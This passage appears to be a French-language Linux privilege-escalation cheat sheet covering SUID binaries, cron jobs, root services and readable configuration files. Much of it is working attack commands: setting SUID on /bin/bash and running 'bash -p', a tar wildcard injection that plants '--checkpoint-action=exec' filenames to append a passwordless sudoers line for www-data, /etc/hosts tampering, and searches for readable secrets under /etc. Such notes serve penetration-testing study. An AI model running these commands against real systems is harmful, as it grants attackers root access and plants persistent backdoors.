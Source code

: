 * **Comment c'est possible** : Un fichier/binaire appartenant à root avec le SUID activé peut être executé par tout le monde en tant que root
1. Lister les binaires (commandes), exécutable en tant que leur propriétaires (root)
```
find / -user root -perm -4000 -type f 2>/dev/null
```
2. Ajouter le SUID via une autre faille (dans un fichier par exemple)
```
chmod +s /bin/bash
/bin/bash -p 
```
## Cron
* **Base de la faille** : Des tâches `cron` executés en tant que root peuvent être attaquables en modifiant l'exécution finale de la tache et on peut se créer un reverse shell root
1. Lister les tâches qui seront executés de facons régulière en tant que root
```
cat /etc/crontab
crontab -l -u root
ls -la /etc/cron.d/
cat /etc/cron.daily/*
cat /etc/cron.hourly/*
cat /etc/cron.monthly/*
cat /etc/cron.weekly/*

```
2. Si un tache est exécuté et se base sur un URL, on peut modifier /etc/hosts
3. Voir si archivage, si possibilité de tar wildcard avec archivage complet d'un repetoire
```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh  
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"  
touch "/var/www/html/--checkpoint=1"
```

## Services root 
* **Base de la faille** : Les services sont souvent lancés avec des droits élevés. Si un service est vulnérable ou mal configuré, il peut être exploité pour obtenir ces droits.
* **Comment c'est possible** : Un service mal configuré pourrait, par exemple, charger des bibliothèques à partir d'un chemin non sécurisé, permettant à un attaquant d'y injecter sa propre bibliothèque.
1. Lister les services qui se lancent en root pour y injecter des modifications
```
systemctl list-units --type=service --state=running
```

## Fichier de configuration mal configurés
* **Base de la faille** : Les fichiers de configuration peuvent parfois contenir des informations sensibles comme des mots de passe. Si ces fichiers sont lisibles par des utilisateurs non privilégiés, ils peuvent être exploités.
* **Comment c'est possible** : Un attaquant qui peut lire un fichier de configuration contenant un mot de passe en clair peut utiliser ce mot de passe pour obtenir des privilèges ou accéder à d'autres systèmes ou services.
```
find /etc/ -readable -type f 2>/dev/null
```
